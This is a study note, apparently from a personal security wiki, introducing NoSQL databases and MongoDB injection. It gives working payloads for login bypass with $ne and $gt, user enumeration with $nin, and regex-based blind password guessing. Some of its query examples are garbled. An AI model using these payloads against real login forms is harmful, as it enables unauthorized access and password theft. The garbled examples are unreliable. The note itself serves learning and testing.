 # NoSQLi

## Introduction to NoSQL databases

NoSQL databases are non-relational meaning they do not store information in regular tabular manner. Key-value(An index and value stored at the indexed location), Graph(Data stored in graph structure), Document(have key-value elements with metadata), xml Databases are a subclass), Wide Column Store(tabular but irregular in width, from row to row). See [Wiki](https://en.wikipedia.org/wiki/NoSQL) further information. For [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), or more basics of SQL see [[Introduction-to-SQL]]

#### MongoDB

[MongoDB](https://www.mongodb.com/) is JSON-like, document store type NoSQL database. Its data is a JSON-like structure called a **Document**. Documents are stored in an associative array with an arbitrary number of fields. These can be store heirarchically called **Collections**. Collections are the equivalent of tables in relational databases; multiple collections are grouped in **databases**. See [[MongoDB]].

I uses NoSQL queries, not SQL-like:
```nosql
['KEY' => 'VALUE']
['KEY' => 'VALUE', 'KEY' => 'VALUE']
['KEY' => ['$lt'=>'1337']]` # Logic can eb used to filter
```
Although keys in this instance can be strings, properties to which the value is some string relationed to it storage key: `["username" : "admin"]

#### MongoDB injection

Due NoSQL queries requiring nested associative arrays a NoSQL injection must be capable of injecting arrays into the application.

This will authenication bypass to the first user in the database:  
`user[$ne]=xxxx&pass[$ne]=yyyy` or `user[$gt]=xxxx&pass[$gt]=yyyy`  
query performed:  
`['username'=>['$ne'=>['yyyy'] ], 'password'=>['$ne'=>'yyyy']]`
To get the nth users, create filter with $nin by specifying criteria where the desired documents have some field, not in a list of values:  
`user[$nin][]=xxxx&pass[$ne]=yyyy`  
The query performed:  
`['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'00001111']]`
Repeat by adding `&user[$nin][]=`

- For passwords `$regex` operator, with a regex the number in curly brackets the length of a wildcard password:  
`user=admin&pass[$regex]=^.{7}$` 

- Then to fuzz with another `[$regex]=^a......$`; if you login the first letter is `a` if error is not. Beware the amount of `.`s as each is one of the `{NUMBER}` of characters so if there are 7 the you need 7 dots and the first being the first character to fuzz for. 


## References

[TryHackMe](https://tryhackme.com/room/nosqlinjectiontutorial)
[Wiki](https://en.wikipedia.org/wiki/NoSQL)
